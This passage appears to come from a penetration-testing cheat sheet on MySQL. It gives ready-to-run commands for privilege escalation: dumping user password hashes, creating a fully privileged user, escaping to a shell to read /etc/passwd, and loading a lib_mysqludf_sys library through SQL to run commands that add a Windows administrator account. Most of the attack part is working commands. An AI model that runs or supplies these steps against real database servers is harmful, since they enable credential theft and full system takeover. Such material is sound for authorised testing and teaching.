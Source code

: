   - ~/.mysql.history
- Log files:
  - connections.log
  - update.log
  - common.log

### Privilege Escalation

Current access level:
```
mysql>select user();
mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```

Access passwords:
```
mysql> use mysql
mysql> select user,password from user;
```

Create new user and grant permissions:
```
mysql> create user test identified by 'test';
mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```

Break into shell:
```
mysql> \! cat /etc/passwd
mysql> \! bash
```

### MySQL root to system root

# MySQL-Root to System-Root

- [MySQL Root to System Root with lib_mysqludf_sys for Windows and Linux](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

Take lib from SQLMap and dump it into the server:

```
udf/mysql/linux/32/lib_mysqludf_sys.so
udf/mysql/linux/64/lib_mysqludf_sys.so
udf/mysql/windows/32/lib_mysqludf_sys.dll
udf/mysql/windows/64/lib_mysqludf_sys.dll
```

On Windows:

```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('C://xampplite//htdocs//mail//lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```
